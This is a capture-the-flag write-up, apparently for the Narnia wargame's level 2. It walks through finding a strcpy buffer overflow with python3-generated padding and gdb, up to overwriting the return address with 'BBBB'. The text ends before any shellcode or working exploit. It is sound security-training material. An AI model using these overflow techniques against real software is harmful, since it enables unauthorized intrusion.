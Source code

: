 ```bash
cat narnia2.c
```
This program takes a command-line argument, copies it into a buffer, and prints it out. If no argument is provided, it shows a usage message and exits. It uses `strcpy` to copy the input, which can be risky because it doesn't check if the input is too long for the buffer (128 characters), potentially causing a buffer overflow.
Lets try to pass the arguments.To pass the arguments i use python3.
```bash
./narnia2 $(python3 -c 'print (128*"A")')
```
It's working lets try how many character it can handle . So,i tried with 140 characters. And it got segmentation fault lets try to narrow it.
```bash
./narnia2 $(python3 -c 'print (131*"A")')
```
131 is the max value it can handle.Lets see in GDB editor.
```bash
gdb ./narnia2
disassemble main
```
Add the break points in leave part
```bash
break *main+81
```
Now run the program.
```bash
run $(python3 -c 'print (131*"A")')
```
If we give 132 in place of 131 it says segmentation fault.
But try to increase the number  we got a different error.
```bash
run $(python3 -c 'print (136*"A")')
```
So add other characters
```bash
run $(python3 -c 'print (132*"A"+"BBBB")')
```
<img src="./img/Screenshot 2024-09-15 194735.png"></img>
lets see the memory address and continue to see the return address.
```bash
x/-50x $esp
continue
```